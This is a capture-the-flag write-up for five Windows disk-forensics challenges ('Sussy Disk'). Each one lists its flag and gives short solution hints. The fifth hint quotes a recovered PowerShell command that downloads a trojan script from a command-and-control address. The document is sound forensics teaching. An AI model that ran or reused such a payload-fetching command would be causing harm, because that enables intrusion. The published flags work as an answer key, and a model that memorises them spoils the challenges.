








# Sussy Disk 1

| Key            | Value                                                                                                                                                                                                                                                                                                                                                                            |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 1                                                                                                                                                                                                                                                                                                                                                                     |
| Author         | warlocksmurf                                                                                                                                                                                                                                                                                                                                                                     |
| Category       | Forensics                                                                                                                                                                                                                                                                                                                                                                        |
| Description    | The forensics team recently recovered a disk image from a compromised machine. Your job as an intern is to help uncover what the attacker had done to the compromised machine and what artifacts you can dig up for the final report. After infiltrating the machine, the attacker searched up some suspicious stuff on the Internet, I wonder what was the attacker looking for? |
| Challenge Type | Static                                                                                                                                                                                                                                                                                                                                                                           |
| Flag           | sunctf{g00gle_the_g0at}                                                                                                                                                                                                                                                                                                                                                          |
| Score          | ???                                                                                                                                                                                                                                                                                                                                                                              |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

Click to expand

1) Extract and analyze the Google History file.

   

# Sussy Disk 2

| Key            | Value                                                                                                       |
|----------------|-------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 2                                                                                                |
| Author         | warlocksmurf                                                                                                |
| Category       | Forensics                                                                                                   |
| Description    | The victim mentioned that one of his file was missing from the machine, the attacker might have deleted it. |
| Challenge Type | Static                                                                                                      |
| Flag           | sunctf{remember_your_handles}                                                                               |
| Score          | ???                                                                                                         |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

Click to expand

1) Analyze the Recycle Bin for the deleted flag.

   

# Sussy Disk 3

| Key            | Value                                                                                                                                                             |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 3                                                                                                                                                      |
| Author         | warlocksmurf                                                                                                                                                      |
| Category       | Forensics                                                                                                                                                         |
| Description    | The forensics team needs to know the answers of the backup questions created by the victim. Can you retrieve them?  Flag format: `sunctf{Ans1_Ans2_An3}`. |
| Challenge Type | Static                                                                                                                                                            |
| Flag           | sunctf{Wowiee_SuperTsumu_Shen}                                                                                                                                    |
| Score          | ???                                                                                                                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

Click to expand

1) Two ways: extract and analyze the SAM registry, or use tools
   from [Nirsoft](https://www.nirsoft.net/utils/security_questions_view.html) to automatically extract it.

   

# Sussy Disk 4

| Key            | Value                                                                                                                                                |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 4                                                                                                                                         |
| Author         | warlocksmurf                                                                                                                                         |
| Category       | Forensics                                                                                                                                            |
| Description    | The attacker attempted to access a confidential ZIP file stored somewhere in the machine. The attacker was also known to be a huge fan of PowerShell. |
| Challenge Type | Static                                                                                                                                               |
| Flag           | sunctf{powershell_is_my_favourite_language}                                                                                                          |
| Score          | ???                                                                                                                                                  |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

Click to expand

1) A password-protected ZIP file can be obtained from the Documents folder. Since the question mentioned the attacker is
   a fan of Powershell, the password can be obtained there.

   

# Sussy Disk 5

| Key            | Value                                                                                           |
|----------------|-------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 5                                                                                    |
| Author         | warlocksmurf                                                                                    |
| Category       | Forensics                                                                                       |
| Description    | Finally, it is time to identify the malware and understand its functions. The flag has 3 parts. |
| Challenge Type | Static                                                                                          |
| Flag           | sunctf{malware_analysis_is_not_that_hard}                                                       |
| Score          | ???                                                                                             |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

Click to expand

1) The Powershell history will show that a malicious Powershell script is downloaded from a C2. Analyzing the powershell
   script, the first part of the flag can be identified.

   `Invoke-WebRequest "http://192.168.1.73:8000/trojan.ps1" -OutFile C:\Users\warlocksmurf\Downloads\trojan.ps1`

   

2) The Powershell script also dropped a base64 encoded malware to the Pictures folder. Going to the folder, an encrypted
   image can be identified with the malware. Analyzing the malware, it encrypted the image with XOR 35 and placed the
   third part of the flag in Temp folder.

   

   

3) The third part of the flag is a simple base64 and ROT13 encoded text.

   

